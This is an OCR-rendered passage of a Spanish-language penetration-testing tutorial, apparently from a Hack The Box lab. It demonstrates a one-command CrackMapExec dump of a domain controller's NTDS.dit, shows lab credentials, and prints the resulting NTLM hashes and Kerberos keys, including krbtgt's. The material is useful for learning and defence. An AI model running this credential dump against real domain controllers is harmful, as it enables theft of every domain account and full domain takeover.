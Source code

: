### **Un método más rápido: usar CME para capturar ntds.dit**

Alternativamente, podemos beneficiarnos del uso de CrackMapexec para lograr los mismos pasos que se muestran arriba, todos con un comando. Este comando nos permite utilizar VSS para capturar y volcar rápidamente el contenido del archivo NTDS.DIT convenientemente dentro de nuestra sesión de terminal.

Atacando activo directorio y ntds.dit

```
xnoxos@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntdsSMB         10.129.201.57    445     DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57    445     DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
SMB         10.129.201.57    445     DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.201.57    445     DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.201.57    445     DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::SMB         10.129.201.57    445     DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
SMB         10.129.201.57    445     DC01           WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
SMB         10.129.201.57    445     DC01           WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
SMB         10.129.201.57    445     DC01           WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
SMB         10.129.201.57    445     DC01           WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
SMB         10.129.201.57    445     DC01           WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
SMB         10.129.201.57    445     DC01           Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
SMB         10.129.201.57    445     DC01           Administrator:des-cbc-md5:618c1c5ef780cde3
SMB         10.129.201.57    445     DC01           DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9SMB         10.129.201.57    445     DC01           DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78dSMB         10.129.201.57    445     DC01           DC01$:des-cbc-md5:a2852362e50eae92SMB         10.129.201.57    445     DC01           krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
SMB         10.129.201.57    445     DC01           krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
SMB         10.129.201.57    445     DC01           krbtgt:des-cbc-md5:9bd5017fdcea8fae
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:aes256-cts-hmac-sha1-96:4b0618f08b2ff49f07487cf9899f2f7519db9676353052a61c2e8b1dfde6b213
```